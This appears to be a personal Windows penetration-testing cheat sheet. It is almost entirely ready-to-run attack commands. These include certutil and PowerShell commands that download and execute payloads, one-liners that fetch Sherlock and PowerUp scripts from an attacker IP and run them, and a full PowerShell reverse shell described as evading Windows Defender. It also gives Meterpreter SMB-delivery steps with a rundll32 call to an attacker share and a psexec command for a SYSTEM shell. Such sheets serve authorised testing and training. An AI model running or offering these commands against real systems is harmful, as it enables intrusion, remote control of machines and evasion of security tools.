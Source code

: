# Download stuff

1. `certutil -urlcache -split -f http://source.ip/payload.exe payload.exe`
2. Download the file in PS: 
`Invoke-WebRequest -Uri "url" -OutFile "dest"`
3. Download and execute in PS: 
`powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('ip/src')"`
# Find Stuff

* cmd: `dir Backups /s c:\ /p `
* ps:

# Enumeration

```
powershell.exe -exec bypass -C "IEX(New-Object System.Net.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/Sherlock.ps1');Find-AllVulns"

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"

powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"
```

## If you have your ps1 file downloaded to the victim machine then run using this
```
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```

# Reverse Shells

## Powershell
This is the most basic reverse shell not detectable by Windows Defender

Replace xxx as needed:

```
powershell -executionpolicy bypass -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.219.xxx',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();"
```
## Meterpreter
This shell works even on Windows 11 but needs MSF

1. SMB delivery: `use windows/smb/smb/delivery`
2. Payload: `set payload windows/meterpreter/reverse_tcp`
3. Configure all options in MSF and `exploit`
4. During exploit execution MSF will ask you to run following on target machine: `rundll32.exe \\attacker_ip\PJSK\test.dll,0`
5. Select active session
6. Get shell: `shell`

# Exploitation

* Once Admin privileges obtained get SYSTEM shell
`psexec -sid cmd.exe`

